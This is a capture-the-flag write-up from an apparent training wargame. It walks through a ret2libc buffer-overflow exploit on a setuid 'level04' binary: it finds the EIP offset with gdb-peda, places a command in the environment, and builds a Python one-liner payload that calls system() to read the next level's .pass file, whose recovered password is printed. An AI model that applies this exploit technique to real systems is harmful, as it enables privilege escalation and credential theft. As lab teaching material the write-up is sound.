 # Level02

## Setup
 * There is one file in our home, ```level04```, belonging to ```level05``` user, with suid.
 * Here's the hand-decompiled source code we propose for this binary: [source.c](source.c)

 * We run the program with gdb and we observe that:
	* `main()` is the only function of interest.
	* The program starts with a `fork()`
		* Child process will ask for a shellcode and then launch `gets()`
		* Parent process does a couple of verifications
			* `WIFEXITED()` and `WIFSIGNALED()` which does not impact us too much
			* It then checks if the child process uses `execve()` with this :
```c
ptrace_ret = ptrace(PT_READ_U, pid, 0x2c, 0x0);
if (ptrace_ret != 0xb)
	continue ;
```

## Solution
 * We will use a `buffer overflow` vulnerability on the child process
 * We will not be able to use our usual shellcode, as the parent process constantly checks for the use of `execv()`, and kills the child process if it uses it.
 * We will execute a `Ret2libc` attack with the help of `system()`, with the argument `"cd ../level05; cat .pass"`

 1. Let's get the `EIP` offset on our input. For this we can use `pattern` from gdb-peda
```gdb
gdb-peda$ pattern create 200
'AAA%AAsAABAA$AAnAACAA-AA(AADAA;AA)AAEAAaAA0AAFAAbAA1AAGAAcAA2AAHAAdAA3AAIAAeAA4AAJAAfAA5AAKAAgAA6AALAAhAA7AAMAAiAA8AANAAjAA9AAOAAkAAPAAlAAQAAmAARAAoAASAApAATAAqAAUAArAAVAAtAAWAAuAAXAAvAAYAAwAAZAAxAAyA'

gdb-peda$ run
[New process 1802]
Give me some shellcode, k
AAA%AAsAABAA$AAnAACAA-AA(AADAA;AA)AAEAAaAA0AAFAAbAA1AAGAAcAA2AAHAAdAA3AAIAAeAA4AAJAAfAA5AAKAAgAA6AALAAhAA7AAMAAiAA8AANAAjAA9AAOAAkAAPAAlAAQAAmAARAAoAASAApAATAAqAAUAArAAVAAtAAWAAuAAXAAvAAYAAwAAZAAxAAyA

...

gdb-peda$ pattern search
Registers contain pattern buffer:
EIP+0 found at offset: 156

```

 2. Next we will setup our argument in the environment. To make it easier we will use an empty env, and then get its address using our `env.c` in the Ressources directory.

```sh
level04@OverRide:~$ env -i COMMAND="cd ../level05; cat .pass" /var/crash/env COMMAND
COMMAND: 0xffffdfd0
```

 3. Now we want to get the address of `system()`

```gdb
 p system
$1 = {<text variable, no debug info>} 0xf7e6aed0 <system>
```

 4. We can now prepare our Buffer overflow injection
 	1. [`'A' * 156`]				-> Padding to access EIP
	2. [`'\xf7\xe6\xae\xd0'[::-1]`]	-> `system()` address
	3. [`'OSEF'`]					-> Padding for using `ret` instead of `call`
	4. [`'\xff\xff\xdf\xd5'[::-1]`]	-> `COMMAND` address (we needed to add 5)

```sh
level04@OverRide:~$ python -c "print('A' * 156 +  '\xf7\xe6\xae\xd0'[::-1]) + 'OSEF' + '\xff\xff\xdf\xd5'[::-1]" > /var/crash/lvl4
```
 5. We can now execute our attack and get our flag !

```sh
level04@OverRide:~$ cat /var/crash/lvl4 | env -i COMMAND="cd ../level05; cat .pass" ./level04
Give me some shellcode, k
3v8QLcN5SAhPaZZfEasfmXdwyR59ktDEMAwHF3aN
```
